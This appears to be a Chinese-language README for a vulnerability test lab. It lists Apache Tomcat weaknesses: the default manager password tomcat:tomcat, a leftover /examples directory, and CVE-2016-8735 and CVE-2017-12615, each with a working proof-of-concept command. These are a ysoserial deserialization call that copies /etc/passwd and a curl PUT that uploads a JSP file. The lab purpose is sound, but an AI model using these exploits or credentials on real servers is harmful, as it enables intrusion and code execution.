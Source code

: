 ## 运维安全 - /manager/html 弱口令

测试镜像

* src/base/tomcat7.0/

后台口令

* tomcat:tomcat

## 运维安全 - /examples 目录未删除

测试镜像

* src/base/tomcat7.0/

## CVE-2016-8735 - JmxRemoteLifecycleListener 反序列化漏洞

测试镜像

* src/base/tomcat7.0/

影响版本

* Apache Tomcat 9.0.0.M1 to 9.0.0.M11
* Apache Tomcat 8.5.0 to 8.5.6
* Apache Tomcat 8.0.0.RC1 to 8.0.38
* Apache Tomcat 7.0.0 to 7.0.72
* Apache Tomcat 6.0.0 to 6.0.47

参考链接

* [Apache Tomcat多版本远程代码执行CVE-2016-8735(附POC)](https://www.anquanke.com/post/id/85043)

Poc

```
java -cp /tmp/ysoserial.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 10001 Groovy1 "cp /etc/passwd /tmp"
```

## CVE-2017-12615 - tomcat PUT 任意文件上传漏洞

测试镜像

* src/base/tomcat7.0/

参考链接

* [Tomcat代码执行漏洞分析测试(附POC)](https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw)

Poc

```
curl -vv -X PUT http://127.0.0.1/test.jsp/ -H 'Content-Type: text/plain' --data @test.jsp
```

